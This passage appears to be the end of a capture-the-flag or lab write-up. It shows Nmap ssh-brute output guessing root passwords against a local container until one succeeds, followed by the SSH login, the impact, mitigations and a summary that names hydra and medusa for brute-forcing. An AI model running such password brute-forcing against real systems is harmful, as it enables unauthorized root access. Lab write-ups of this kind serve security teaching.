NSE: [ssh-brute] Trying username/password pair: root:elizabeth  
NSE: [ssh-brute] Trying username/password pair: root:hottie  
NSE: [ssh-brute] Trying username/password pair: root:tinkerbell  
NSE: [ssh-brute] Trying username/password pair: root:charlie  
NSE: [ssh-brute] Trying username/password pair: root:samantha  
NSE: [ssh-brute] Trying username/password pair: root:barbie  
NSE: [ssh-brute] Trying username/password pair: root:chelsea  
NSE: [ssh-brute] Trying username/password pair: root:lovers  
NSE: [ssh-brute] Trying username/password pair: root:teamo  
NSE: [ssh-brute] Trying username/password pair: root:jasmine  
NSE: [ssh-brute] Trying username/password pair: root:brandon  
NSE: [ssh-brute] Trying username/password pair: root:666666  
NSE: [ssh-brute] Trying username/password pair: root:shadow  
NSE: [ssh-brute] Trying username/password pair: root:melissa  
NSE: [ssh-brute] Trying username/password pair: root:eminem  
NSE: [ssh-brute] Trying username/password pair: root:matthew  
NSE: [ssh-brute] Trying username/password pair: root:robert  
NSE: [ssh-brute] Trying username/password pair: root:danielle  
NSE: [ssh-brute] Trying username/password pair: root:forever  
NSE: [ssh-brute] Trying username/password pair: root:family  
NSE: [ssh-brute] Trying username/password pair: root:jonathan  
NSE: [ssh-brute] Trying username/password pair: root:987654321  
NSE: [ssh-brute] Trying username/password pair: root:computer  
NSE: [ssh-brute] Trying username/password pair: root:whatever  
NSE: [ssh-brute] Trying username/password pair: root:dragon  
NSE: [ssh-brute] Trying username/password pair: root:vanessa  
NSE: [ssh-brute] Trying username/password pair: root:cookie  
NSE: [ssh-brute] Trying username/password pair: root:naruto  
NSE: [ssh-brute] Trying username/password pair: root:summer  
NSE: [ssh-brute] Trying username/password pair: root:sweety  
NSE: [ssh-brute] Trying username/password pair: root:spongebob  
NSE: [ssh-brute] Trying username/password pair: root:joseph  
NSE: [ssh-brute] Trying username/password pair: root:junior  
NSE: [ssh-brute] Trying username/password pair: root:softball  
NSE: [ssh-brute] Trying username/password pair: root:taylor  
NSE: [ssh-brute] Trying username/password pair: root:yellow  
NSE: [ssh-brute] Trying username/password pair: root:daniela  
NSE: [ssh-brute] Trying username/password pair: root:lauren  
NSE: [ssh-brute] Trying username/password pair: root:mickey  
NSE: [ssh-brute] Trying username/password pair: root:princesa  
NSE: [ssh-brute] Trying username/password pair: root:alexandra  
NSE: [ssh-brute] Trying username/password pair: root:alexis  
NSE: [ssh-brute] Trying username/password pair: root:jesus  
NSE: [ssh-brute] Trying username/password pair: root:estrella  
NSE: [ssh-brute] Trying username/password pair: root:miguel  
Nmap scan report for 172.17.0.2 (172.17.0.2)  
Host is up (0.000066s latency).  
  
PORT   STATE SERVICE  
22/tcp open  ssh  
| ssh-brute:    
|   Accounts:    
|     root:estrella - Valid credentials  
|_  Statistics: Performed 106 guesses in 74 seconds, average tps: 1.4  
MAC Address: 2A:26:18:68:05:58 (Unknown)  
  
Nmap done: 1 IP address (1 host up) scanned in 103.65 seconds
```

# 🔗 Connecting using found credentials

```bash
ssh root@172.17.0.2
whoami
id
hostname
```

Result:


Root connection established.


# 🔑 Key points

- 22 port exposed.
- Vulnerable password: ***estrella***.
- Root logging enabled


- The SSH configuration fails to limit authentication attempts.


# ☠️ Impact

- Full system compromise.
- Root level access obtained.


# 🔐 Mitigation

- Use stronger password.
- Unable `PermitRootLogin`, set to `no` or `prohibit-password`.
- Add account lockout.
- Use ssh key authentication.


# 📜 Conclusion

Target machine exploited successfully

1. Indentify open ports.
2. Using `hydra` or `medusa` for a brute-force attacj through ssh.
3. Valid credentials detection.
4. Connecting via ssh with found credentials.